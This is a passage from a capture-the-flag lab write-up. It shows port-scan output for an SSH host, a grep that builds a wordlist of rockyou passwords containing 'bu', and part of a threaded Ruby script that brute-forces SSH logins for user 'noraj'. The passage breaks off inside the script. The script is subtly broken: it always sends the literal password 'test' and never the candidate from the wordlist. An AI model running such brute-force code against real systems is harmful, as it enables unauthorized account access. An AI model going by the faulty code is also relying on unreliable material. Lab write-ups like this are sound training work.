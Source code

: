 ```shell
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJf9gbS/xBNED4k9vQscQ6Xi4VMzkK2M=
|   256 7523c066c72c6e120af704612bc61262 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ7ai11Zz/i/bAw8SQG0aBJfcYjdIiQQiAXhV8/9b3km
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

According to `rustscan` result, we have 1 port is opened:

Open Ports        | Service
------------------|------------------------
22                | OpenSSH 7.6p1 Ubuntu

### SSH on Port 22

First, let's prepare the wordlist.

In the room's hint, it said:

> The password contains "bu".

**Let's use `grep` to grab all passwords that contain `bu`:**
```shell
╭─root at siunam in ~/ctf/thm/ctf/Red-Stone-One-Carat 2023-01-12 - 10:04:10
╰─○ grep 'bu' /usr/share/wordlists/rockyou.txt > bu_password.txt
```

## Initial Foothold

**Then, we can write a ruby script to brute force user `noraj`'s password.**
```ruby
#!/usr/bin/env ruby
require 'rubygems'
require 'net/ssh'
require 'thread'

class Exploit
    def initialize(rhosts)
        @rhosts = rhosts
    end

    def bruteforceSSH(filename, username)

        # Method that connect to target's SSH port
        def connectSSH(username, password)
            begin
                puts "[*] Trying credentials: #{username}:#{password}"

                Net::SSH.start(@rhosts, username, :password => 'test',
                           :auth_methods => ["password"], :port => 22,
                           :non_interactive => true, :timeout => 10 ) do
                    puts "[+] Found valid credentials: #{username}:#{password}"
                end
            # Password is wrong
            rescue Net::SSH::AuthenticationFailed

            end
        end

        # Create a File object
        file = File.open(filename)

        # Read the whole file into one array of lines
        file.readlines.each do |password|
            # For each password, create a new thread to method connectSSH
            thread = Thread.new {connectSSH(username, password)}
```